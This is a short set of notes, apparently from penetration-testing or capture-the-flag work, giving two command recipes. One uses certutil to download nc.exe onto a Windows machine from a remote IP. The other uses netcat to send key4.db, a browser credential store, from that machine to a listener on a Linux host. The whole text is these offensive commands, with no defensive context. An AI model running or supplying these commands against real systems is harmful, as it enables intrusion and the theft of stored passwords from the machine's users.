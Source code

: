 ## Download file in Windows Machine.

certutil -urlcache -f http://10.9.3.223:80/nc.exe nc.exe

## Transfer file from Windows Machine to Linux (netcat)

nc -nv 10.9.3.223 443 < key4.db (on windows machine)

nc -nvlp 443 > key4.db (on Linux Machine)
